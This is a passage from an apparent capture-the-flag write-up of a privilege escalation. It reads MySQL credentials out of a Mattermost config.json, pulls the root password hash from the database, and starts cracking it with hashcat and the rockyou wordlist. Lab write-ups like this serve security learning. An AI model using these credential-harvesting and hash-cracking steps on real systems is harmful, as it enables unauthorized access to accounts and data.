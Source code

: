 ## Privilege Escalation

- enum MatterMost service configuraion => mysql credential

```console
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
...
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
},
...
```

- enum mysql => hash value of root password

![image-20240130101748283](./Delivery.assets/image-20240130101748283.png)

Password cracking:

1. brute force [x]

```console
└─╼$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
...
```

